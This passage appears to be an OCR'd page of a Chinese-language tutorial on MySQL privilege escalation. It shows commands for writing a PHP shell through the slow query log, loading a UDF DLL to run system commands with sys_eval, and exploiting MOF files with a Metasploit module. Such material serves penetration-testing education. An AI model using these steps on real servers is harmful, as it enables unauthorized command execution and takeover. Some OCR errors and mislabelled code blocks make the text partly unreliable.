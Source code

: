 (3) 开启慢查询日志：

```vbnet
set GLOBAL slow_query_log=on;
```

(4)) 执行写入日志：

```php-template
select '<?php phpinfo();?>' from mysql.db where sleep(10);
```



## **2.2 User defined funct ion（UDF）：**

适用于Windows和Linux环境，利用需要的条件：具有写权限+插件目录可写（或者可以更改指定的插件目录）。具体情况要看目标mysql的版本：
(1) `Mysql version > 5.1`时，dll或者so必须位于mysql安装目录`lib\plugin`下，当对该目录具有写权限时可以利用，查看：

```sql
show variables like %plugin%；// 查看插件目录
```

(2) 5.0 <= Mysql version <5.1时，需要导出至目标服务器的系统目录，如C://Windows/System32
(3) Mysql version < 5.0 时，目录可以自定义具体利用如下：
a 根据目标mysql版本写入特定目录的so或者dll，可以参考sqlmap里面的

```csharp
select 'It is dll' into dumpfile 'C:\Program Files\MySQL\MySQL Server 5.1\l ib\plugin\lib_mysqludf_sys.dll';
```

b 创建对应的function：

```sql
create function sys_eval returns string soname "lib_mysqludf_sys.dll";
```

c 执行命令：

```sql
select * from mysql.func where name = 'sys_eval';   	 #查看创建的sys_eval函数select sys_eval('whoami');                          			 #使用系统命令
```



## 2.3 MOF提权：

通过mysql将文件写入一个MOF文件替换掉原有的MOF文件，然后系统每隔五秒就会执行一次上传的MOF。一般适用于Windows <= 2003，并且`C:\Windows\System32\mof`目录具有写权限（一般是没有权限写）。可以使用MSF直接利用：

```bash
use exploit/windows/mysql/mysql_mof
set rhost 192.168.1.5
set rport 3306
set password root
set username root
exploit
```
